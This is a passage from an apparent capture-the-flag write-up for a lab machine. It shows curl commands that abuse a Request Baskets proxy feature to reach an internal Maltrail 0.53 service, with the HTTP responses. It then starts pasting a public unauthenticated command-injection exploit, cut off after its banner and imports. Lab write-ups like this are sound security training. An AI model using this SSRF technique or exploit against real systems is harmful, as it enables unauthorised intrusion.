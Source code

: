 Setting it to `Request Baskets`  
![](https://res.cloudinary.com/dulldsqcl/image/upload/v1703538778/blog/sau/qotkwyon2z2ph9ws1dte.png){.maxH300}

But, unlucky, we got a `502 Bad Gateway`, it indicates that the server, while acting as a gateway or proxy, received an invalid response from the upstream server. Which means it wont work this manner.  
```bash
curl -X GET -Ik http://sau.htb:55555/stl44dl
```
```http
HTTP/1.1 502 Bad Gateway
Content-Type: text/plain
Date: Mon, 25 Dec 2023 19:00:37 GMT
Content-Length: 155
```

We need a new approach, so, instead, we can try to look into local addresses. Do you remember that we couldn't access that `unknown` service on port `80`? Let's try to access it through this proxy forwarding feature. Also it is needed to set insecure TLS, since we have no TLS.

![](https://res.cloudinary.com/dulldsqcl/image/upload/v1703538806/blog/sau/xgvg9mpqimrogevfgkql.png){.maxH300}

Yay, we got a 200 OK! We are doing some progress here! Also, it is possible to fingerprint a new service `Server: Maltrail/0.53`. We must make some searching to discover what service is this.
```
curl -X GET -Ik http://sau.htb:55555/stl44dl

HTTP/1.1 200 OK
Cache-Control: no-cache
Connection: close
Content-Security-Policy: default-src 'self'; style-src 'self' 'unsafe-inline'; img-src * blob:; script-src 'self' 'unsafe-eval' https://stat.ripe.net; frame-src *; object-src 'none'; block-all-mixed-content;
Content-Type: text/html
Date: Mon, 25 Dec 2023 19:06:23 GMT
Last-Modified: Tue, 31 Jan 2023 18:18:07 GMT
Server: Maltrail/0.53
Transfer-Encoding: chunked
```

On my research about "Maltrail 0.53", the first search result I got on google was [Weaponized Exploit for Maltrail v0.53 Unauthenticated OS Command Injection (RCE)](https://github.com/spookier/Maltrail-v0.53-Exploit), It seems now we have an attack vector.

---

## 🎯 **Exploit**

```python
'''
  ██████  ██▓███   ▒█████   ▒█████   ██ ▄█▀ ██▓▓█████  ██▀███  
▒██    ▒ ▓██░  ██▒▒██▒  ██▒▒██▒  ██▒ ██▄█▒ ▓██▒▓█   ▀ ▓██ ▒ ██▒
░ ▓██▄   ▓██░ ██▓▒▒██░  ██▒▒██░  ██▒▓███▄░ ▒██▒▒███   ▓██ ░▄█ ▒
  ▒   ██▒▒██▄█▓▒ ▒▒██   ██░▒██   ██░▓██ █▄ ░██░▒▓█  ▄ ▒██▀▀█▄  
▒██████▒▒▒██▒ ░  ░░ ████▓▒░░ ████▓▒░▒██▒ █▄░██░░▒████▒░██▓ ▒██▒
▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░░ ▒░▒░▒░ ░ ▒░▒░▒░ ▒ ▒▒ ▓▒░▓  ░░ ▒░ ░░ ▒▓ ░▒▓░
░ ░▒  ░ ░░▒ ░       ░ ▒ ▒░   ░ ▒ ▒░ ░ ░▒ ▒░ ▒ ░ ░ ░  ░  ░▒ ░ ▒░
░  ░  ░  ░░       ░ ░ ░ ▒  ░ ░ ░ ▒  ░ ░░ ░  ▒ ░   ░     ░░   ░ 
      ░               ░ ░      ░ ░  ░  ░    ░     ░  ░   ░     
'''

import sys;
import os;
import base64;

def main():
```